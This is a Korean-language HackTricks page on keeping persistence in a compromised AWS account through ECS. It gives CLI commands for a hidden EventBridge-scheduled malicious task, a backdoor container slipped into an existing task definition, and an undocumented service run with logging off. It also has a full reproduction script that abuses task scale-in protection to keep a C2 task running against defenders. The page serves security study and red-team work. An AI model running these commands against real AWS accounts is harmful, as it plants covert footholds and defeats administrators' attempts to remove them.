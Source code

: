 # AWS - ECS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## ECS

자세한 내용은 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-ecs-enum.md
{{#endref}}

### Hidden Periodic ECS Task

> [!NOTE]
> TODO: 테스트

공격자는 Amazon EventBridge를 사용해 hidden periodic ECS task를 생성하여 **malicious task의 실행을 주기적으로 스케줄할 수 있습니다**. 이 task는 reconnaissance를 수행하거나, 데이터를 exfiltrate하거나, AWS 계정에서 persistence를 유지할 수 있습니다.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
{
"Id": "malicious-ecs-task-target",
"Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
"RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
"EcsParameters": {
"TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
"TaskCount": 1
}
}
]'
```
### 기존 ECS Task Definition의 Backdoor Container

> [!NOTE]
> TODO: 테스트

공격자는 정상 컨테이너와 함께 실행되는 기존 ECS task definition에 **stealthy backdoor container**를 추가할 수 있습니다. 이 backdoor container는 지속성 유지 및 악의적 활동 수행에 사용될 수 있습니다.
```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
{
"name": "legitimate-container",
"image": "legitimate-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
},
{
"name": "backdoor-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": false
}
]'
```
### 문서화되지 않은 ECS 서비스

> [!NOTE]
> TODO: 테스트

공격자는 악성 작업을 실행하는 **문서화되지 않은 ECS 서비스**를 생성할 수 있습니다. 원하는 작업 수를 최소로 설정하고 로깅을 비활성화하면 관리자가 악성 서비스를 발견하기 더 어려워집니다.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```
### ECS Persistence via Task Scale-In Protection (UpdateTaskProtection)

서비스 태스크가 scale‑in 이벤트나 롤링 배포로 중지되는 것을 방지하기 위해 ecs:UpdateTaskProtection을 악용합니다. 보호를 지속적으로 연장하면 공격자는 수비자가 desiredCount를 줄이거나 새로운 태스크 리비전을 배포하더라도 장기간 실행되는 태스크(C2 또는 데이터 수집용)를 유지할 수 있습니다.

Steps to reproduce in us-east-1:
```bash
# 1) Cluster (create if missing)
CLUSTER=$(aws ecs list-clusters --query 'clusterArns[0]' --output text 2>/dev/null)
[ -z "$CLUSTER" -o "$CLUSTER" = "None" ] && CLUSTER=$(aws ecs create-cluster --cluster-name ht-ecs-persist --query 'cluster.clusterArn' --output text)

# 2) Minimal backdoor task that just sleeps (Fargate/awsvpc)
cat > /tmp/ht-persist-td.json << 'JSON'
{
"family": "ht-persist",
"networkMode": "awsvpc",
"requiresCompatibilities": ["FARGATE"],
"cpu": "256",
"memory": "512",
"containerDefinitions": [
{"name": "idle","image": "public.ecr.aws/amazonlinux/amazonlinux:latest",
"command": ["/bin/sh","-c","sleep 864000"]}
]
}
JSON
aws ecs register-task-definition --cli-input-json file:///tmp/ht-persist-td.json >/dev/null

# 3) Create service (use default VPC public subnet + default SG)
VPC=$(aws ec2 describe-vpcs --filters Name=isDefault,Values=true --query 'Vpcs[0].VpcId' --output text)
SUBNET=$(aws ec2 describe-subnets --filters Name=vpc-id,Values=$VPC Name=map-public-ip-on-launch,Values=true --query 'Subnets[0].SubnetId' --output text)
SG=$(aws ec2 describe-security-groups --filters Name=vpc-id,Values=$VPC Name=group-name,Values=default --query 'SecurityGroups[0].GroupId' --output text)
aws ecs create-service --cluster "$CLUSTER" --service-name ht-persist-svc \
--task-definition ht-persist --desired-count 1 --launch-type FARGATE \
--network-configuration "awsvpcConfiguration={subnets=[$SUBNET],securityGroups=[$SG],assignPublicIp=ENABLED}"

# 4) Get running task ARN
TASK=$(aws ecs list-tasks --cluster "$CLUSTER" --service-name ht-persist-svc --desired-status RUNNING --query 'taskArns[0]' --output text)

# 5) Enable scale-in protection for 24h and verify
aws ecs update-task-protection --cluster "$CLUSTER" --tasks "$TASK" --protection-enabled --expires-in-minutes 1440
aws ecs get-task-protection --cluster "$CLUSTER" --tasks "$TASK"

# 6) Try to scale service to 0 (task should persist)
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --desired-count 0
aws ecs list-tasks --cluster "$CLUSTER" --service-name ht-persist-svc --desired-status RUNNING

# Optional: rolling deployment blocked by protection
aws ecs register-task-definition --cli-input-json file:///tmp/ht-persist-td.json >/dev/null
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --task-definition ht-persist --force-new-deployment
aws ecs describe-services --cluster "$CLUSTER" --services ht-persist-svc --query 'services[0].events[0]'

# 7) Cleanup
aws ecs update-task-protection --cluster "$CLUSTER" --tasks "$TASK" --no-protection-enabled || true
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --desired-count 0 || true
aws ecs delete-service --cluster "$CLUSTER" --service ht-persist-svc --force || true
aws ecs deregister-task-definition --task-definition ht-persist || true
```
영향: 보호된 태스크는 desiredCount=0임에도 RUNNING 상태를 유지하며, 새로운 배포 중 교체를 차단하여 ECS 서비스 내에서 은밀한 장기 지속성을 가능하게 합니다.

{{#include ../../../../banners/hacktricks-training.md}}
